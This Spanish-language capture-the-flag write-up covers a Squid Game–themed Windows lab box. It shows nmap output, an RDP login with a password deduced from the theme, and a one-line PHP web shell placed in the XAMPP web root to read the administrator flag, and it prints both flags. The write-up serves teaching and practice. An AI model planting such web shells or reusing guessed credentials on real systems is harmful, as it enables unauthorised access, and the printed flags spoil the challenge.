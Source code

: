 ```yaml
---
title: "Write Up – Luz Roja, Luz Verde"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/kavacon.png"
categories:
  - WriteUp
---
```



## USER

En primer llugar hacemos un nmap a la ip y obtenemos lo siguiente

```
 Nmap 7.91 scan initiated Wed Oct 20 11:01:58 2021 as: nmap -p22,80,135,139,443,445,3389,5040,49664,49665,49666,49667,49669,49674 -sCV -O -oN NMAP 10.4.4.153

Nmap scan report for 10.4.4.153
Host is up (0.068s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 1b:96:83:6a:eb:95:f2:4e:a6:5c:7b:03:9f:11:ff:69 (RSA)
|   256 49:b1:af:d5:ab:62:68:18:17:dd:91:7d:d1:cf:24:68 (ECDSA)
|_  256 a3:28:50:54:b9:fa:f5:58:a7:20:3d:ba:08:e2:71:23 (ED25519)
80/tcp    open  http          Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was http://10.4.4.153/dashboard/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was https://10.4.4.153/dashboard/
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 (91%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (90%), Microsoft Windows XP SP3 (88%), Microsoft Windows Server 2008 SP1 (88%), Microsoft Windows 10 (87%), Microsoft Windows 7 or Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8.1 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-20T14:04:40
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 20 11:06:56 2021 -- 1 IP address (1 host up) scanned in 298.22 seconds
```

Al entrar a la web nos damos cuenta que es sobre «Juego del Calamar»

![Luz Roja, Luz Verde 1](/assets/images/post/2021/luzrojaluzverde_1.png)

De acuerdo a la serio uno se movía con Luz verde, por lo que escribimos «verde», con esto entramos a una web con los datos de nuestro jugador #3389 y podemos descargar la ficha, el jugador 3389 hace alusión al puerto 3389 visto en en nmap además de un potencial usuario «seong»

![Luz Roja, Luz Verde 2](/assets/images/post/2021/luzrojaluzverde_2.png) | ![Luz Roja, Luz Verde 3](/assets/images/post/2021/luzrojaluzverde_3.png)

Al tarducir el fichero nos dice que la contraseña es un numero de 4 digitos. En la serie, la contraseña de ATM era el numero del jugador por lo que se deduce que la contraseña es 3389 (mismo que el pueto RDP), se prueba y podemos entrar a remote desktop con el comando y obtenemos acceso con rdp y la flag

rdesktop -f -u "seong" -p 3389 <IP>

***flag{jug4r3m0smu3vet3luzv3rd3!!}***

## ROOT

Para root, se debe subir una web shell en php en la carpeta C:\xampp\htdocs\dashboard\ desde

```
<?php
    echo shell_exec($_GET['cmd']);
?>
```

Con esta web tenemos acceso como administrador y podremos ver la flag revisando en nuestra web con la extensión ?cmd=type C:\Users\admin\Desktop\admin.txt.txt

***flag{c0m0estamosmentalmente?}***



![Racso](https://www.hackthebox.com/badge/image/159593)